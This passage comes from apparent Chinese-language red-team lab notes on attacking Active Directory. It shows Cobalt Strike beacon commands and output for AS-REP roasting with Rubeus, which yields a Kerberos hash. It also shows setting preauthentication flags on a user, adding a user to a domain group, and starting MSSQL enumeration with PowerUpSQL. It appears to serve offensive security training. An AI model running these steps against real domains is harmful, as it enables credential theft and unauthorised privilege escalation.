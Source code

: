 Name                           Value
----                           -----
NORMAL_ACCOUNT                 512                              
DONT_EXPIRE_PASSWORD           65536                              
DONT_REQ_PREAUTH               4194304

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asreproast /user:jadams /nowrap

[*] Action: AS-REP roasting

[*] Target User            : jadams
[*] Target Domain          : dev.cyberbotic.io

[*] Searching path 'LDAP://dc-2.dev.cyberbotic.io/DC=dev,DC=cyberbotic,DC=io' for AS-REP roastable users

[*] SamAccountName         : jadams
[*] DistinguishedName      : CN=Joyce Adams,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Building AS-REQ (w/o preauth) for: 'dev.cyberbotic.io\jadams'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$jadams@dev.cyberbotic.io:5E0549 [...snip...] 131FDC

beacon> powershell Set-DomainObject -Identity jadams -XOR @{UserAccountControl=4194304}
beacon> powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536
```

# Modify Domain Group Membership

如果我们对域里的某个组上有 ACL，我们可以添加和删除组成员
```
beacon> run net group "Oracle Admins" bfarmer /add /domain

The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.

beacon> run net user bfarmer /domain

The request will be processed at a domain controller for domain dev.cyberbotic.io.

User name                    bfarmer
Full Name                    Bob Farmer

[...snip...]

Global Group memberships     *Domain Users         *Roaming Users        
                             *Developers           *Oracle Admins
```


# MS SQL Servers

MSSQL除了信息数据窃取以外还有很大的攻击面，包括：代码执行，权限提升，横向移动，权限维持

使用工具：[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)


查找MSSQL实例的cmdlets
```
Get-SQLInstanceDomain
Get-SQLInstanceBroadcast
Get-SQLInstanceScanUDP
